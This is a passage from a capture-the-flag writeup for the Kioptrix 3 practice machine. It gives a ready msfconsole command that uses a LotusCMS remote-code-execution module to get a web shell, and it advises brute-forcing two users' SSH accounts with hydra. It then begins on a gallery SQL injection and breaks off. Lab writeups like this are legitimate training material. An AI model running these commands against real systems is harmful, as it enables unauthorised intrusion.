 ***

# Exploitation
Wait, really? Why was the recon so fast? No dirbuster, nikto, spidering? There are still many possible reconnaissance steps I could do, however to keep my writeup short I'll focus on *(hopefully)* two main exploitation methods via `LotusCMS` and the `gallery`.

***

## Shell - LotusCMS
Fortunately enough, I encountered LotusCMS vulnerability once already and therefore getting a reverse shell was easy. LotusCMS is seeded with various vulnerabilites such as an **RCE** or an **LFI**. More can be found by querying searchsploit:

```console
root@EdgeOfNight:~# searchsploit LotusCMS
------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                     |  Path
                                                                   | (/usr/share/exploitdb/platforms/)
--------------------------------------------------------------------- --------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)      | php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                          | php/webapps/16982.txt
------------------------------------------------------------------- ----------------------------------
```      

Look! A metasploit RCE module. I usually avoid metasploit modules (and you should too), however I'll use it just once for simplicity. `msfconsole -x "use exploit/multi/http/lcms_php_exec; set URI /; set RHOST kioptrix3.com;run"` yields a www-data shell.

<div class="notice--info">
  <h4>Tip:</h4>
  <p><b>msfconsole -x</b> combines all commands into one</p>
</div>
   
After that just view **/home/** directory which shows 2 users - **dreg** and **loneferret**, fire up hydra and brute both of their SSH accounts! Users done. Sorry for not going into much detail when describing the steps! I find this way of getting an user rather stupid, which led to my quick explanation. If you despise using msfconsole, there is a [tool](https://github.com/Hood3dRob1n/LotusCMS-Exploit) on github which can do the same thing.

***

## Shell - SQL injection inside /gallery/

Visit the previously mentioned webpage. Inside **Libgoat Press Room** gallery allows sorting of photos by IDs which possibly opens up an SQL injection attack.       
